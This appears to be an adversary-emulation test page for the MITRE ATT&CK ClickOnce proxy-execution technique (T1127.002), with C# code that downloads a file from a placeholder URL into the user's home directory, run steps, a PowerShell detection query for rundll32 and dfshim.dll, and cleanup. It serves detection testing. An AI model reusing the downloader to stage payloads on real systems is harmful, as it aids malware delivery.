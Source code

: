 # Tactic: Execution | Technique: Trusted Developer Utilities Proxy Execution (ClickOnce - T1127.002)

## From MITRE ATT&CK

**Trusted Developer Utilities Proxy Execution** is an abuse of legitimate developer tools to execute arbitrary code. This can involve tools like ClickOnce, which simplifies deployment of applications via URLs. Adversaries can exploit ClickOnce to execute unauthorized applications or files by hosting malicious ClickOnce manifests online. This technique often bypasses security measures by leveraging trusted utilities.

## Test

| Name                                         | Description                                                              | Reference |
|----------------------------------------------|--------------------------------------------------------------------------|-----------|
| ClickOnce File Download via Custom .NET App | Simulates adversaries leveraging a .NET application to proxy file execution using ClickOnce | N/A       |

### Test Development

#### Use ClickOnce to download a file from a specified URL and save it locally

```csharp
using System.Net.Http;
using System.IO;

namespace clickonce4
{
    public partial class Form1 : Form
    {
        public Form1()
        {
            InitializeComponent();
        }

        private async void button1_Click(object sender, EventArgs e)
        {
            string url = "https://ENTER-URL-TO-DOWNLOAD-FILE-FROM";

            // Get the user's home directory path
            string userHomePath = Environment.GetFolderPath(Environment.SpecialFolder.UserProfile);

            // Define a generic filename with timestamp
            string fileName = $"downloaded_file_{DateTime.Now:yyyyMMddHHmm}.zip";  // Includes date and time

            string destinationFile = Path.Combine(userHomePath, fileName);

            using (HttpClient client = new HttpClient())
            {
                using (HttpResponseMessage response = await client.GetAsync(url))
                {
                    response.EnsureSuccessStatusCode();
                    using (Stream stream = await response.Content.ReadAsStreamAsync())
                    {
                        using (FileStream fileStream = File.Create(destinationFile))
                        {
                            await stream.CopyToAsync(fileStream);
                        }
                    }
                }
            }

            MessageBox.Show("File downloaded successfully!");
        }
    }
}
```
## Test Details

The test code demonstrates how a custom .NET application can use ClickOnce-like behavior to download a file from a specified URL and save it to the user's home directory. Specifically, the code performs the following actions:

1. **Initiates a Download**: The application triggers a file download from a specified URL using the `HttpClient` class.
2. **Generates a Unique Filename**: It dynamically creates a unique filename for the downloaded file, incorporating the current date and time (formatted as `downloaded_file_<yyyyMMddHHmm>.zip`).
3. **Saves the File Locally**: The downloaded file is saved in the user's home directory.
4. **Completion Message**: Once the file is successfully downloaded, a message box is displayed to notify the user of the successful download.

In essence, the test simulates a file download via a URL, demonstrating how an attacker could use ClickOnce to deliver malicious content by manipulating URLs and file handling within trusted developer utilities.

### Test Execution
1. Save the above C# code to a file (e.g., `ClickOnceApp.cs`).
2. Compile the code using Visual Studio or the `csc` command-line compiler to produce an executable (e.g., `ClickOnceApp.exe`).
3. Execute the application.
4. Check the user's home directory for a file named `downloaded_file_<timestamp>.zip`.

### Detection

#### Monitor for unusual ClickOnce activity
Monitor for processes like `rundll32.exe` using `dfshim.dll` or for network connections to unusual URLs that host ClickOnce manifests. Pay special attention to downloads resulting in executable files, particularly if they are being saved in suspicious locations.

#### Example PowerShell Command
Log processes leveraging `rundll32.exe` and `dfshim.dll`:

```powershell
Get-WinEvent -LogName Security | Where-Object { $_.Message -match "rundll32.exe dfshim.dll" }


```
### Input Arguments

- **`file_download_url`**: URL to the file to be downloaded by the ClickOnce application.
  - Example: `https://drive.google.com/file.....`
  
- **`file_name_pattern`**: Pattern for the saved file name (timestamped).
  - Example: `downloaded_file_<yyyyMMddHHmm>.zip`

### Executor

#### Manual Execution Steps:
1. Save the C# code to a file (e.g., `ClickOnceApp.cs`).
2. Compile the code using Visual Studio or `csc` (command-line compiler).
3. Run the compiled executable (`ClickOnceApp.exe`).
4. Check for the downloaded file in the user's home directory.

### Dependencies

- **.NET Runtime**: Ensure that the .NET runtime is available on the target system to run the application.
- **Network Connectivity**: Ensure that the system can access the specified URL for downloading the file.

### Cleanup Command

To clean up after the test, delete the downloaded file from the user's home directory:

```powershell
Remove-Item -Path "$HOME\downloaded_file_*.zip" -Force
